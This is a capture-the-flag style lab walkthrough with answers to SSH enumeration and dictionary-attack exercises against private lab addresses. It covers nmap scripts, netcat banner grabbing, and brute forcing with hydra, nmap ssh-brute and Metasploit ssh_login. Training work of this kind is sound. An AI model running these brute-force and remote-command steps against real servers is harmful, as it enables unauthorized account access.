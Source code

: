 # SSH -basics

* Q1. What is the version of SSH server.
  * Answer: Command: nmap -sV 192.201.39.3

* Q2. Fetch the banner using netcat and check the version of SSH server.
  * Answer: Command: nc 192.201.39.3
 
* Q3. Fetch pre-login SSH banner.
  * Answer: Command: ssh root@192.201.39.3

* Q4. How many “encryption_algorithms” are supported by the SSH server.
 * Answer: Command: nmap --script ssh2-enum-algos 192.201.39.3


* Q5. What is the ssh-rsa host key being used by the SSH server.
  * Answer: Command: nmap --script ssh-hostkey --script-args ssh_hostkey=full 192.201.39.3

* Q6. Which authentication method is being used by the SSH server for user “student”.
  * Answer: Command: nmap -p 22 --script ssh-auth-methods --script-args="ssh.user=student" 192.201.39.3
 

* Q7. Which authentication method is being used by the SSH server for user “admin”.
  * Answer: publickey, password
  * Command: nmap -p 22 --script ssh-auth-methods --script-args="ssh.user=admin" 192.201.39.3
 

* Q8. Fetch the flag from /home/student/FLAG by using nmap ssh-run script.
  * Answer: Command: nmap -p 22 --script=ssh-run --script-args="ssh-run.cmd=cat /home/student/FLAG,ssh-run.username=student,ssh-run.password=" 192.201.39.3

 
# SSH Recon: Dictionary attack


* Q1. Find the password of user “student” using hydra.
  * Commands:
     * gzip -d /usr/share/wordlists/rockyou.txt.gz
     * hydra -l student -P /usr/share/wordlists/rockyou.txt 192.40.231.3 ssh

* Q2. Find the password of user “administrator” use appropriate nmap scripts with password dictionary: /usr/share/nmap/nselib/data/passwords.lst
  * Commands:
     * echo "administrator" > users
     * nmap -p 22 --script ssh-brute --script-args userdb=/root/users 192.40.231.3
    
* Q3. Find the password of user “root” using ssh_login metasploit module with userpass dictionary: /usr/share/wordlists/metasploit/root_userpass.txt
  * Commands:
    * msfconsole
    * use auxiliary/scanner/ssh/ssh_login
    * set RHOSTS 192.40.231.3
    * set USERPASS_FILE /usr/share/wordlists/metasploit/root_userpass.txt
    * set STOP_ON_SUCCESS true
    * set verbose true
    * exploit
  

* Q4. What is the message of the day ? (Printed after the user logs into the SSH server).
  * Command: ssh root@192.40.231.3
  * Enter password “attack”

